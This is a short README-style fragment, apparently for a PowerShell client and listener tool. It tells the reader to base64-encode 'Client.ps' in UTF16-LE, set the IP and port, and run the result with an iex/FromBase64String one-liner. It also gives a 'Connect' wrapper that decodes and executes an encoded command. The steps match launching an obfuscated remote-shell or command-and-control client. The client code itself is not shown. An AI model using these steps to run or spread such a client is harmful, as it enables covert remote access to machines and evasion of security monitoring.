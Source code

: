 Use Client.ps by encoding it with https://www.base64encode.org/ use UTF16-LE and CRLF(Windows) Make change in ip and port in code keep genrated cert files in same directory where listner is present.
To execute the encoded code use iex([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('Base64EncodedCode')))
To execute the encoded code use function Connect{param([Alias('e','EncodedCommand')][string]$Via);iex([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($Via)))};Connect -Via Base64Code
